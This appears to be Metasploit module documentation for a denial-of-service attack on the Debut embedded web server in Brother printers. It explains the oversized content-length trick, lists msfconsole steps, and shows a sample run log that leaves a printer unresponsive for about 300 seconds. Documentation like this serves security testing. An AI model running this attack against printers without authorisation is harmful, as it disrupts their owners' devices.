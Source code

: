 ## Vulnerable Application

  Versions <= 1.20 of the Debut embedded httpd web server in use by Brother printers are vulnerable to denial of service 
  via a crafted HTTP request. This module will render the printer unresponsive from requests for ~300 seconds.
  This is thought to be caused by a single threaded web server which
  has a ~300 second timeout value.  By sending a request with a content-length larger than the actual data, the server waits
  to receive the rest of the data, which doesn't happen until the timeout occurs.  This DoS is for all services, not just http.

  This module was successfully tested against a Brother HL-L2380DW series.

  An nmap version scan of the vulnerable service should look similar to:
  `80/tcp open  http    Debut embedded httpd 1.20 (Brother/HP printer http admin)`.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/dos/http/brother_debut_dos```
  3. Do: ```set rhost [ip]```
  4. Do: ```run```
  5. You should see Success, and manual attempts to browse the web interface don't load.

## Scenarios

### Brother HL-L2380DW with Debut embedded 1.20

```
resource (brother.rc)> use auxiliary/dos/http/brother_debut_dos
resource (brother.rc)> set rhost 1.1.1.1
rhost => 1.1.1.1
resource (brother.rc)> exploit
[*] Sending malformed POST request at 2018-01-24 20:45:52.
[+] 1.1.1.1:80 - Connection Refused: Success! Server will recover about 2018-01-24 20:50:52
[*] Auxiliary module execution completed
```
